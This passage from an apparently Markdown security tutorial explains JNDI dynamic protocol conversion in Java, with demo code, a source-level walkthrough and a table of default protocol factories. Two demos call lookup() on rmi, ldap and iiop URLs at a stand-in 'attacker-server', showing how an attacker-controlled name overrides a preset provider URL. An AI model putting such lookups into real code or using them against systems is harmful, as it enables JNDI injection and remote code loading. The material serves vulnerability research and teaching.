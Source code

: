 ```java

}
```

# Dynamic protocol conversion
In the above example code, the factory of the corresponding service and the `PROVIDER_URL` of the corresponding service are manually set. In fact, dynamic protocol conversion can be performed in `JNDI`. The example code is as follows:

 - Demo-1
```java
Context context = new InitialContext();
context.lookup("rmi://attacker-server/refObject");
context.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
context.lookup("iiop://attacker-server/bar");
```

 - Demo-2
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:8888");
Context context = new InitialContext(env);

String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";
context.lookup(name);
```

In the code of Demo-1, there is no factory with corresponding services and `PROVIDER_URL`, and `JNDI` automatically converts and sets the corresponding factory with corresponding services and `PROVIDER_URL` according to the passed URL protocol. In the code of Demo-2, it can be seen that even if the server sets the factory and `PROVIDER_URL` in advance, it has no effect. When the parameters during the `lookup operation can be controlled by the attacker, it will still dynamically convert based on the `URL` provided by the attacker and overwrite the initially set `PROVIDER_URL`, and point the `lookup operation to the server controlled by the attacker.

Let’s take a look at the specific process from the source code level and follow up on `InitialContext#lookup`
Method, the `InitialContext#getURLOrDefaultInitCtx` method will be called in the return value. Continue to follow up with the method, and dynamic conversion operations will be performed here.

![InitialContext#lookup](./images/4.png)

![InitialContext#getURLOrDefaultInitCtx](./images/5.png)

The `JNDI` automatic protocol conversion and corresponding factory classes supported by default in `JDK` are as follows:
|Protocol|schema|Context|
|:----|:----|:----|
|DNS|dns://|com.sun.jndi.url.dns.dnsURLContext|
|RMI|rmi://|com.sun.jndi.url.rmi.rmiURLContext|
|LDAP|ldap://|com.sun.jndi.url.ldap.ldapURLContext|
|LDAP|ldaps://|com.sun.jndi.url.ldaps.ldapsURLContext|
|IIOP|iiop://|com.sun.jndi.url.iiop.iiopURLContext|
|IIOP|iiopname://|com.sun.jndi.url.iiopname.iiopnameURLContext|
|IIOP|corbaname://|com.sun.jndi.url.corbaname.corbanameURLContext|
